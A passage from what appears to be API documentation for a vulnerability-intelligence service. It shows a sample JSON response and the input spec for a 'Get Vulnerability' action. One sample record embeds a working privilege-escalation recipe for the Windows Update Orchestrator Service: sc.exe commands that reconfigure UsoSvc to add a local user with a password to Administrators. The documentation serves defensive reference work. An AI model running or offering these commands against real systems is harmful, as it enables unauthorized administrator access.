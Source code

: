 ```
        ]
      },
      "revisionDate": "2020-03-25T20:04:57.835948Z",
      "score": 1,
      "topicId": "35b88369-c440-49c0-98ff-c50e258fb32c"
    },
    {
      "created": "2020-03-25T15:59:33.70864Z",
      "document": "This is an elevation of privilege vulnerability that exists when Windows improperly handles authentication requests by leveraging the Update Orchestrator Service. If an attacker successfully exploits this vulnerability they can run processes in an elevated context. \r\n\r\n\r\n**Prerequisite**:  \r\n\r\nThe Update Orchestrator Service runs as NT AUTHORITY\\SYSTEM and any user in the group NT AUTHORITY\\SERVICE have full access to modify the service.\r\n\r\nIt is known to affect Windows 10 1803 and above that have not been updated with the November 12th, 2019 security update patch (or above).\r\n \r\n\r\n**Exploitation**: \r\n\r\nCreate tmpUser, add to local administrators group, and reset the service to its default state.\r\n\r\n```sh\r\nsc.exe stop UsoSvc\r\nsc.exe config UsoSvc binPath=\"cmd /c net user /add tmpUser tmpPassword123\"\r\nsc.exe start UsoSvc\r\nsc.exe stop UsoSvc\r\nsc.exe config UsoSvc binPath=\"cmd /c net localgroup Administrators /add tmpUser\"\r\nsc.exe start UsoSvc\r\nsc.exe stop UsoSvc\r\nsc.exe config UsoSvc binPath=\"C:\\Windows\\System32\\svchost.exe -k netsvcs -p\"\r\nsc.exe start UsoSvc\r\n```",
      "editorId": "476d5018-c9fe-422d-825b-d5601af6bcf0",
      "id": "47f78818-b766-47ca-8262-d7abc8dced66",
      "metadata": {
        "attacker-value": 5,
        "exploitability": 5,
        "tags": [
          "high_privilege_access"
        ]
      },
      "revisionDate": "2020-03-25T15:59:33.712345Z",
      "score": 1,
      "topicId": "8011789d-8681-4c89-a088-8e14d395987f"
    }
  ]
}
```

#### Get Vulnerability

This action is used to return a single topic with the specified ID.

##### Input

|Name|Type|Default|Required|Description|Enum|Example|
|----|----|-------|--------|-----------|----|-------|
|id|string|None|True|The UUID of a specific topic to return|None|a2c54f3d-48d0-48c4-b056-3a78181d777c|

Example input:

```
{
  "id": "a2c54f3d-48d0-48c4-b056-3a78181d777c"
}
```
